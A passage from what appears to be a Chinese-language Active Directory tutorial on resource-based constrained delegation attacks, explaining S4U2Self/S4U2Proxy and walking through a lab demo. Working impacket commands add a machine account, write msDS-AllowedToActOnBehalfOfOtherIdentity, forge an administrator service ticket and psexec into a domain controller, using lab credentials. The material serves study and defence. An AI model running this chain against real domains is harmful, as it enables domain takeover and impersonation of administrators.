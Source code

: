 > 注：（1）步骤 1 的作用？（2）虽然图 4-55 和图 4-53 有一些不同，但它的工作流程其实也和图 4-52 是差不多的，区别可能仅仅只是配置委派属性的位置发生了变化（约束性委派是在服务 1 配置，由服务 1 去请求服务 2。基于资源的约束性委派在服务 2 配置，还是由服务 1 去请求服务 2。）、返回 ST1 的可转发属性发生了变化（约束性委派返回的 ST1 是可转发的，基于资源的约束性委派返回的 ST1 是不可转发的）。

### 攻击实验

我们需要拥有对服务 B 所在机器的机器账户修改的权限（即图 4-55 中服务 B 所在的机器），然后在其属性 msDS-AllowedToActOnBehalfOfOtherldentity 中添加一个可控制的机器账户（即服务 A 对应的服务账户），于是该账户便拥有了对服务 B 的委派权限，接着便可以通过 impacket-getST 代表任意用户请求对服务 B 的访问票据（ST）。此时 impacket-getST 相当于是把攻击机 kali 当做了服务 A，然后再借助 S4u2Self 和 S4u2Proxy 这些协议冒充是委托模拟用户（可以是域管理员用户）向服务 B 发起的访问。【注意：S4u2Self 和 S4u2Proxy 协议都是直接与 KDC 对话来申请的服务票据。】

> 注：委派账户只能是机器账户，不可以是域用户。
> 
> 域主机机器账户属性的修改只有 **域管理组的成员** 或 **帮助该机器加域时的那个域账户** 才有权修改。因此，基于资源的委派攻击通常需要配合其他攻击进行，例如，强制认证中继攻击中的委派攻击。

在这个例子中，为了演示假设我们已获得了管理组成员 admin1 的凭证 skylark/admin1.:'skylark@123'。

（1）新建一个机器账户（即服务 A 的服务账户）

    impacket-addcomputer -dc-ip 192.168.56.50 -computer-name 'bot' -computer-pass 'skylark@123' skylark.com/admin1:skylark@123
    

![image](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250627153711940-2069943387.png)

（2）在域控机器账户（即服务 B 所在机器的机器账户）的 msDS-AllowedToActOnBehalfOfOtherldentity 属性中添加该机器账户

    #（1）添加委派账户
    impacket-rbcd skylark.com/admin1:'skylark@123' -dc-ip 192.168.56.50 -action write -delegate-to DC2012$ -delegate-from bot$
    
    #（2）查询委派账户
    impacket-rbcd skylark.com/admin1:'skylark@123' -dc-ip 192.168.56.50 -action read -delegate-to DC2012$
    

![image](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250627153733229-1307583067.png)

或 ADExplorer.exe 查询

![image](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250627153757389-1243861700.png)

（3）模拟用户进行 ST 票据申请

    impacket-getST -dc-ip 192.168.56.50 -spn cifs/dc2012.skylark.com  skylark.com/'bot$':'skylark@123' -impersonate administrator
    

![image](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250627153821690-296179800.png)

（4）利用 ST 票据管控服务 B 的机器（即域控）

    export KRB5CCNAME=administrator@cifs_dc2012.skylark.com@SKYLARK.COM.ccache
    
    impacket-psexec -k -no-pass administrator@dc2012.skylark.com -dc-ip 192.168.56.50 -target-ip 192.168.56.50
    

![image](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250627153844434-1201856022.png)

**

5、杂项

**
------------

1.  默认情况下，只有计算机账户的属性选项卡中会显示“委派”选项卡，而域用户账户则不会显示。而要让域用户账户也显示“委派”选项卡，则需要为其注册一个 SPN，可使用命令 `setspn -A HTTP/webapp.domain.local svc_web`，或重新设置某服务的服务启动账户为该域用户。
